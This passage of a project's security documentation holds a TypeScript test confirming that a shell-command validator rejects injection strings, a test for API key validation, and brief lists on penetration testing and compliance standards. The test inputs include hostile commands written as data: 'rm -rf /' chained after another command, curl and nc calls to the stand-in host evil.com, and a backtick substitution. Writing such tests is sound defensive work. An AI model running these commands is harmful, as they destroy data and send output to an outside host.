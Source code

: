 ```typescript
    it('should sanitize shell commands', () => {
      const maliciousCommands = [
        'ls; rm -rf /',
        'cat file && curl evil.com',
        'ls | nc evil.com 1234',
        'ls `rm file`',
      ];

      for (const cmd of maliciousCommands) {
        expect(() => validateShellCommand(cmd)).toThrow(
          'Potentially dangerous command detected',
        );
      }
    });
  });

  describe('Authentication', () => {
    it('should reject invalid API keys', () => {
      const invalidKeys = [
        '', // Empty
        'abc', // Too short
        'key with spaces', // Invalid characters
        '12345'.repeat(100), // Too long
      ];

      for (const key of invalidKeys) {
        expect(ApiKeyManager.validateApiKey(key)).toBe(false);
      }
    });
  });
});
```

### Penetration Testing

Regular security assessments should include:

1. **Static Code Analysis**: Automated source code security scanning
2. **Dynamic Testing**: Runtime security testing with live system
3. **Dependency Scanning**: Third-party package vulnerability assessment
4. **Network Testing**: API endpoint and network security testing
5. **Social Engineering**: Phishing and social attack simulations

## Compliance

### Security Standards

- **OWASP Top 10**: Address common web application vulnerabilities
- **NIST Cybersecurity Framework**: Risk management and security controls
- **ISO 27001**: Information security management standards
- **SOC 2 Type II**: Service organization control reports
